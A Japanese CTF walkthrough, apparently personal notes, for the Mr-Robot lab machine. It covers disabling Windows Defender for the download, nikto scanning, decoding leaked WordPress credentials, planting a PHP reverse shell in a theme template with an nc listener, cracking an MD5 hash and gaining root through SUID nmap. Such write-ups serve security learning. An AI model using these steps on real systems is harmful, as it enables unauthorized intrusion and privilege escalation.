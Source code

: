 ## Mr-Robot 788~

## ダウンロードできない問題
- WindowsDefenderがウィルスを感知してダウンロードできないので、ネットでoffにするのを調べてからダウンロードする。ダウンロードしたら、Defenderをまた有効にする

1. 「スタート」ボタン-「設定」の順にクリックします。
2.  Windowsの設定が表示されたら、「更新とセキュリティ」- 「Windows セキュリティ」-「ウイルスと脅威の防止」の順にクリックします。
3.  Windowsのセキュリティ画面が表示されたら、「ウイルスと脅威の防止の設定」にある「設定の管理」をクリックします。
4. 「リアルタイム保護」の設定を「オフ」に切り替えて、「はい」をクリックします。

## wordpressにログインできない
- 一度最後まで通してやるとログインできなかったり不都合があるので、もう一度削除してインストールをする

### ポートスキャンまで同じ
- 22はcloseになっているので注意
- 80, 443
### ブラウザでアクセスする
- サイトを探索する
- robots.txtを見る
### ダウンロードしたファイルの整理(ここでは、簡便な方法で攻略しているのでやらない)
- このファイルはhydraの辞書として使う。
- `wget http://192.168.56.116/key-1-of-3.txt`
- `wget http://192.168.56.116/fsocity.dic`
- fsocity.dicの中味を確認して、多いので整理する
  - `cat fsocity.dic`
  - `wc fsocity.dic`
  - `cat fsocity.dic | sort | uniq > filtered_fsocity.dic`
### NIKTO
- ~何度もやると、アク禁になるようだ~
- `nikto -h $URL` 結構時間がかかる
- いくつかサイトがあるのでメモっておく
  - `/wp-login.php` 
  - `/license.txt`の一番下に怪しい文字列があるのでコピーしておく

### decode
- さっきの文字列の最後に`=`があったのでbase64で暗号化されていると思われるので、でコードする
- `echo ペースト | base64 --decode`
- ユーザ名(elliot)とパスワード(ER28-0652)がわかる

### wordpressのユーザにログインする
- `http://192.168.56.116/wp-login`
- ユーザ名とパスワードを入力するとダッシュボードにアクセスできる

### phpリバースシェルの準備
- このページからコードをコピーしてくる
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- ダッシュボードで`Appearance`->`Editor`->`404 Template`を選んで、一度全部削除してさっきのコピーをペーストする
- コードの中の一部を書き換える
  - IPアドレスをParrotOSのアドレス
  - ポート番号は5555とする
- 下の方にupdate fileボタンがあるので押す

### リバースシェルの待ち受け
- ParrotOSでもうひとつターミナルを開けて次のコマンドを打つ
- `nc -nlvp 5555`
  - もしncコマンドがなければ、NATにつなげて`sudo apt install netcat-traditinal`でインストールする 
- ブラウザでサイトにアクセスするとシェルを取得できる
  - `http://ターゲットサーバのIPアドレス/404.php`
- いつも通りにPythonで対話型シェルにする
  - `python -c "import pty; pty.spawn('/bin/bash')"`
  - daemonユーザになる

### daemonユーザでいつもの試す
- ユーザを取得したらすること
  - `sudo -l` パスワードがわからない
  - `SUID` nmapコマンドはない 

### システム内を探索する
- `cd /home/robot ; ls`
- `cat password.raw-md5`暗号があるので、コピーする

### オンラインハッシュクラッカーでハッシュ値を解読する
- John the ripperでもできるはずだが、20分くらいやっても出ない
- md5はプログラミンでは元に戻せないので、オンラインサイト(Crack Station)の辞書で戻す
- 答えを書いておくと
  - abcdefghijklmnopqrstuvwxyz

### 別のユーザに切り替える
- `su robot`

### SUIDファイルを探索する
- `find / -perm -u=s  -type f 2> /dev/null`

### SUIDファイルを利用して、ルートシェルを取得する
- `nmap --interactive`
- `!sh`

### フラグを取得する
- `cd /root; cat key-3-of-3.txt`
